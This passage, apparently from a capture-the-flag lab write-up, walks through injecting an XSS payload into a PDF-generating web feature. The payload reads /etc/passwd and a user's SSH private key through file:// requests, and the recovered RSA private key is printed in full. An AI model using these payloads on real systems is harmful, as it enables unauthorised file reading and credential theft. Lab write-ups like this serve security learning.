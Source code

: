 We use this [website](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) for the next section.

There is a section on xss with pdfs , convinently we have a pdf vuln on the site so we know that this could be a good exploit.

```php
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```
We add this code to both the sections in the collections tab as the user and upload a file e.g test.txt with some simple contents for example 1 word.

We then navigate to the admin panel and go onto the collections tab and download the pdf in collections column. Sure enough it is the `/etc/passwd` file.

So we can now get files off the system and onto our box, next we try to read the ssh key for the user.
We know that the user is called `reader` as this is the user that came up in the passwd file.

we change the script to:
```php
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```

And sure enough we get the ssh key for the user!.

## pdf to text

Now we have to find out a way to get the pdf key to text.

We find a github repository with a tools that we can do this with.
we run `git clone https://github.com/pdfminer/pdfminer.six.git` and then go into the tools folder and execute `python pdf2txt.py 5652.pdf -o id_rsa`.

If you get errors with this you will have to `pip install pdfminer.six` to get the depndancies for running this file with python.

We now edit this file in a text editor and change the formatting of the top and bottom lines slightly to march an ssh-key format. We know have this:
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
```